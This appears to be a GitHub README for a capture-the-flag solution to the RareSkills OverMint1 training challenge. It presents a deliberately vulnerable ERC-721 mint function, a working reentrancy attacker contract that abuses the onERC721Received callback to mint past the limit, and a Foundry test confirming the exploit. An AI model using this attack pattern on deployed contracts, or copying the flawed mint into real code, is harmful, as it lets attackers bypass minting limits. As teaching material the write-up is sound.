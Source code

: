 # OverMint1 Challenge

This repository contains my solution to the RareSkills "OverMint1" challenge, focusing on NFT security vulnerabilities.

## The Challenge

The challenge involves identifying and exploiting a vulnerability in an ERC-721 implementation that allows users to mint more NFTs than they should be allowed to.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";

contract Overmint1 is ERC721 {
    using Address for address;
    mapping(address => uint256) public amountMinted;
    uint256 public totalSupply;

    constructor() ERC721("Overmint1", "AT") {}

    // @audit-issue CEI is not respected! Risk of reentrancy!
    function mint() external {
        require(amountMinted[msg.sender] <= 3, "max 3 NFTs");
        totalSupply++;
        _safeMint(msg.sender, totalSupply);
        amountMinted[msg.sender]++;
    }

    function success(address _attacker) external view returns (bool) {
        return balanceOf(_attacker) == 5;
    }
}
```

## The Vulnerability

The vulnerability stems from the contract not following the Checks-Effects-Interactions (CEI) pattern. The contract checks `amountMinted[msg.sender]` but then performs an external interaction via `_safeMint()` before updating the `amountMinted` counter. 

Since `_safeMint()` can trigger a callback to the receiving contract via `onERC721Received()`, this creates a reentrancy opportunity that allows bypassing the intended limit of 3 NFTs per address. The vulnerable sequence is:

1. Check: `require(amountMinted[msg.sender] <= 3, "max 3 NFTs");`
2. Interaction: `_safeMint(msg.sender, totalSupply);` (external call happens here)
3. Effect: `amountMinted[msg.sender]++;` (state update happens too late)

The proper CEI pattern would perform all state updates before the external call.

## My Solution

I implemented a solution by creating an attacker contract that exploits the reentrancy vulnerability:

```solidity
contract PwnOvermint1 is IERC721Receiver {
    Overmint1 overmint;
    address i_owner;

    constructor(address _overmint) {
        i_owner = msg.sender;
        overmint = Overmint1(_overmint);
    }

    function attack() public {
        require(
            msg.sender == i_owner,
            "Only the owner can call this function!"
        );
        overmint.mint();
    }

    function normalMint() public {
        require(
            msg.sender == i_owner,
            "Only the owner can call this function!"
        );
        overmint.mint();
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external override returns (bytes4) {
        require(
            msg.sender == address(overmint),
            "Must come from overmint contract!"
        );
        if (overmint.balanceOf(address(this)) < 5) {
            overmint.mint();
        }
        return IERC721Receiver.onERC721Received.selector;
    }
}
```

I also wrote a Foundry test to verify my solution works correctly:

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;
import {Overmint1, PwnOvermint1} from "../src/Overmint1.sol";
import "forge-std/Test.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721.sol";
import "forge-std/console.sol";

contract Overmint1Test is Test {
    Overmint1 overmint;
    PwnOvermint1 pwnovermint;

    address DEPLOYER;
    address ATTACKER;

    function setUp() public {
        DEPLOYER = makeAddr("deployer");
        ATTACKER = makeAddr("attacker");

        vm.prank(DEPLOYER);
        overmint = new Overmint1();
        vm.prank(ATTACKER);
        pwnovermint = new PwnOvermint1(address(overmint));
    }

    function testSetUp() public {
        console.log(
            "Both the Overmint and the Attacker contract have successfully been set up!"
        );
        console.log("");
        console.log("The Overmint contract is at: ", address(overmint));
        console.log("The Attacker contract is at: ", address(pwnovermint));
    }

    function testAttack() public {
        uint256 initialBalance = overmint.balanceOf(address(pwnovermint));
        console.log(
            "Before the attack, the attacker address has a balance of %s NFT's",
            initialBalance
        );
        vm.prank(ATTACKER);
        pwnovermint.attack();
        uint256 newBalance = overmint.balanceOf(address(pwnovermint));
        console.log(
            "After the attack, the attacker address has a balance of %s NFT's",
            newBalance
        );
        bool balanceOfAttacker = overmint.success(address(pwnovermint));
        assertTrue(balanceOfAttacker);
    }
}
```

## Testing

I've written a complete Foundry test suite to verify my solution:

```bash
forge test -vv --match-test testAttack
```

The test validates that the attack successfully mints 5 NFTs, satisfying the `success()` function's requirement. Running the test shows the balance changing from 0 to 5 NFTs after executing the attack.

## Security Insights

This challenge demonstrates important security considerations for NFT implementations:

1. The critical importance of following the Checks-Effects-Interactions pattern
2. Reentrancy vulnerabilities that can exist in NFT mint functions
3. How `_safeMint()` creates callback opportunities via `onERC721Received()`
4. Why state-changing operations should complete before external calls

## Acknowledgements

This challenge is part of the RareSkills solidity training material on ERC-721 security issues.